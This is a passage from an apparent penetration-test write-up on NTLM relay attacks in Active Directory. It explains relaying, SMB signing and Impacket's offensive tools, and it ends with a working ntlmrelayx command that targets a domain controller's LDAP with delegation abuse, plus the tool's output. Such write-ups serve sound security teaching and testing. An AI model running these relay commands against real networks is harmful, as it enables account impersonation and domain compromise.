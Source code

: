 During a relay attack, I position myself in the middle of this exchange. When a client tries to authenticate to me (thinking I'm a legitimate server), I immediately forward those authentication messages to a target of my choosing. The target server sends back a challenge, which I relay to the client. The client responds with valid credentials, which I pass along to the target - effectively impersonating that user without ever knowing their password.

The beauty of this attack is that I never need to crack a single password hash. I'm simply relaying the legitimate authentication messages in real time. This is exactly why SMB signing is critical - it cryptographically links the authentication messages together to prevent this kind of manipulation.

## Impacket: The Red Team's Network Protocol Toolkit

For the relay attacks, I turned to Impacket - the go-to Python framework for low-level protocol manipulation. Impacket lets you craft, dissect, and manipulate network packets across virtually all Windows protocols including SMB, MSRPC, NTLM, and Kerberos.

Unlike high-level libraries that abstract away the protocol details, Impacket gives you direct access to the raw protocol interactions, making it perfect for offensive security testing. My attack chain relied primarily on two Impacket tools: ntlmrelayx for relaying NTLM authentication and secretsdump for extracting credentials via DCSync.

Other Impacket gems include psexec, wmiexec, and smbexec for remote command execution, GetUserSPNs for Kerberoasting, and GetNPUsers for AS-REP roasting. The framework handles all the low-level details of Windows authentication, letting you focus on the attack strategy rather than protocol implementation.

## NTLM Relay Attack

Having identified machines with SMB signing disabled and captured authentication attempts, I was ready to set up an NTLM relay attack. Rather than trying to crack the hashes (which could be time-consuming or impossible for complex passwords), I decided to relay them to target services.

### Setting up NTLM Relay to LDAP

I configured Impacket's ntlmrelayx tool to relay authentication attempts to the domain controller's LDAP service. By using the `--delegate-access` option, I would be able to create computer accounts with special delegation rights:

```bash
sudo impacket-ntlmrelayx \
  -t ldap://dc-server01.corp.local:389 \
  --delegate-access \
  --no-smb-server

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled
```
